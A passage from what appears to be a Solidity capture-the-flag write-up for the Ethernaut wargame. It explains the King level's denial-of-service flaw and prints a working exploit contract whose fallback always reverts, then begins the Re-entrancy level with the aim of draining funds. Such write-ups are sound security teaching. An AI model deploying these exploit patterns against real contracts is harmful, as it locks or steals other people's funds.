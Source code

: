 ```solidity
  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

When someone sends ether to the contract, it check if the value is greater than or equal to the prize or the sender is the owner. If so the value amount will be transfered to the king and msg.sender will become the new king. The transfer can potentially break the code if we can `revert()` when transfering value that will block others to become the king.

> ### Solution:
> - We deploy our exploit contract with 0.01 ether.
> - And when recieving ether we have our custom `fallback()` function which will `revert()` the transaction.
> - Once our exploit become the king it will block the others from becoming the new king as a result we will be king forever.
> 
> ```solidity
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> contract kingExploit {
> 
>     constructor(address payable instance) public payable {
>         require(msg.value >= 0.01 ether);
>         instance.call{value : 0.01 ether}("");
>     }
> 
>     fallback () external payable{
>         revert();
>     }
> }
> ```

<hr>

## 10 Re-entrancy
We need to steal all the funds from the contract to complete this level.

#### Source:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
```